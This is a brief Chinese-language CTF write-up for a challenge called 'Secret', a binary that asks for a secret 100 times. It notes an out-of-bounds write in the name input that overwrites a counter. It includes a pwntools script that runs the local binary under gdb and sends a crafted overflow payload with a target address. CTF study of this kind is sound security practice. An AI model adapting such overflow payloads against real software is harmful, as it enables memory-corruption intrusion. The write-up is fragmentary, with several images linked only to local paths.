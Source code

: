 # Secret





![sn2I8r](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/sn2I8r.png)

一个密码机，要连续输入100次secrest才能get flag。。。显然是唬人的

![adfasfdasfasf](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/adfasfdasfasf.png)

![9b0ViT](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/9b0ViT.png)


![image-20200321174114753](/Users/migraine/Library/Application Support/typora-user-images/image-20200321174114753.png)

输入name的时候，有个越界，可以把记数用的内存覆盖掉。。。不过这个漏洞似乎并没有什么用？

![image-20200321172737950](/Users/migraine/Library/Application Support/typora-user-images/image-20200321172737950.png)

```python
#!/usr/bin/python
from pwn import *
p=process("./secret.dms")
gdb.attach(p,"b *0x46a396")

p.sendline(p64(0x0)+"\x00"*0x8+p32(0x46d080))

p.recvuntil('Secret:')
#p.sendline(str(18283))

p.interactive()

'''
>>> print 0x476b
18283

'''
```


